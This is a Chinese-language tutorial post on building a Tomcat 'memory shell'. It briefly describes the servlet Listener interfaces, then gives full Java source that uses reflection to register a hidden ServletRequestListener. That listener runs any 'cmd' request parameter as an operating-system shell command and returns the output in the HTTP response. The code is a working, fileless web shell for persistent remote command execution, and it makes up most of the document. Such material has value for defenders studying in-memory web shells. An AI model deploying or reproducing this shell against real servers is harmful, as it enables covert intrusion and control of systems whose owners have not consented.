 ## 分析

Listener 可以译为监听器，监听器用来监听对象或者流程的创建与销毁，通过 Listener，可以自动触发一些操作，因此依靠它也可以完成内存马的实现

可能存在的监听器：

- ServletContextListener：用于监听整个 Servlet 上下文（创建、销毁）
- ServletContextAttributeListener：对 Servlet 上下文属性进行监听（增删改属性）
- ServletRequestListener：对 Request 请求进行监听（创建、销毁）
- ServletRequestAttributeListener：对 Request 属性进行监听（增删改属性）
- javax.servlet.http.HttpSessionListener：对 Session 整体状态的监听
- javax.servlet.http.HttpSessionAttributeListener：对 Session 属性的监听

这些类接口，实际上都是 `java.util.EventListener` 的子接口。

这里我们看到，在 ServletRequestListener 接口中，提供了两个方法（requestDestroyed / requestInitalized）在 request 请求创建和销毁时进行处理

`ServletRequestListener`用于监听`ServletRequest`对象的创建和销毁，当我们访问任意资源，无论是servlet、jsp还是静态资源，都会触发`requestInitialized`方法

listener是在StandardContext#getApplicationEventListeners方法中获得

在StandardContext#addApplicationEventListener添加了listener

反射调用addApplicationEventListener添加listener

## 内存马

```java
package pres.test.momenshell;

import org.apache.catalina.connector.Request;
import org.apache.catalina.core.StandardContext;

import javax.servlet.*;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.util.Scanner;

public class AddTomcatListener extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        this.doPost(req, resp);
    }

    @Override
    protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        try {
            ServletContext servletContext = req.getServletContext();
            StandardContext o = null;
            while (o == null) { //循环从servletContext中取出StandardContext
                Field field = servletContext.getClass().getDeclaredField("context");
                field.setAccessible(true);
                Object o1 = field.get(servletContext);

                if (o1 instanceof ServletContext) {
                    servletContext = (ServletContext) o1;
                } else if (o1 instanceof StandardContext) {
                    o = (StandardContext) o1;
                }
            }
            Mylistener mylistener = new Mylistener();
            //添加listener
            o.addApplicationEventListener(mylistener);
        } catch (NoSuchFieldException e) {
            e.printStackTrace();
        } catch (IllegalAccessException e) {
            e.printStackTrace();
        }
    }
}
class Mylistener implements ServletRequestListener {

    @Override
    public void requestDestroyed(ServletRequestEvent servletRequestEvent) {
        ServletRequest request = servletRequestEvent.getServletRequest();
        if (request.getParameter("cmd") != null) {
            try {
                String cmd = request.getParameter("cmd");
                boolean isLinux = true;
                String osType = System.getProperty("os.name");
                if (osType != null && osType.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] cmds = isLinux ? new String[]{"/bin/sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
                InputStream inputStream = Runtime.getRuntime().exec(cmds).getInputStream();
                Scanner s = new Scanner(inputStream).useDelimiter("\\a");
                String output = s.hasNext() ? s.next() : "";
                Field request1 = request.getClass().getDeclaredField("request");
                request1.setAccessible(true);
                Request request2 = (Request) request1.get(request);
                request2.getResponse().getWriter().write(output);
            } catch (IOException e) {
                e.printStackTrace();
            } catch (NoSuchFieldException e) {
                e.printStackTrace();
            } catch (IllegalAccessException e) {
                e.printStackTrace();
            }
        }
    }

    @Override
    public void requestInitialized(ServletRequestEvent servletRequestEvent) {

    }
}
```

